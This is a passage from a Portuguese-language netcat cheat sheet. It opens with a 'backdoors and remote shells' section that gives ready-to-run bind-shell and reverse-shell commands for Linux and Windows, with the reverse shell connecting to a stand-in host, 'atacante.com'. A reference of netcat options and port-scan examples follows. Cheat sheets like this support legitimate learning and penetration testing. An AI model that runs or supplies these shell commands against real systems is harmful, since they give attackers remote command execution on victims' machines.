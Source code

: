 ### Backdoors e Shells Remotos

#### Linux/Unix
**Servidor (atacante):**
```bash
nc -l -p 4444 -e /bin/bash
```

**Cliente (vítima conectando ao servidor):**
```bash
nc atacante.com 4444
```

#### Windows
```bash
nc -l -p 4444 -e cmd.exe
```

#### Shell Reverso
**No atacante:**
```bash
nc -l -p 4444
```

**Na vítima:**
```bash
nc atacante.com 4444 -e /bin/bash
# Ou para Windows
nc atacante.com 4444 -e cmd.exe
```

## Opções Detalhadas

### Opções Principais
- `-l` - Modo listen (servidor)
- `-p` - Especificar porta local
- `-u` - Modo UDP (padrão é TCP)
- `-v` - Modo verbose
- `-vv` - Modo mais verbose
- `-z` - Scan mode (não envia dados)
- `-w` - Timeout em segundos
- `-n` - Não resolver DNS (apenas IP)
- `-k` - Manter conexão após cliente desconectar
- `-e` - Executar programa após conexão
- `-s` - Endereço IP local específico
- `-o` - Output em hexdump

### Exemplos com Múltiplas Opções
```bash
# Servidor verbose com timeout
nc -v -l -p 9999 -w 30

# Cliente com IP específico e timeout
nc -s 192.168.1.50 -w 10 exemplo.com 80

# Scan rápido de portas
nc -z -n -w 1 192.168.1.1 1-1000
```

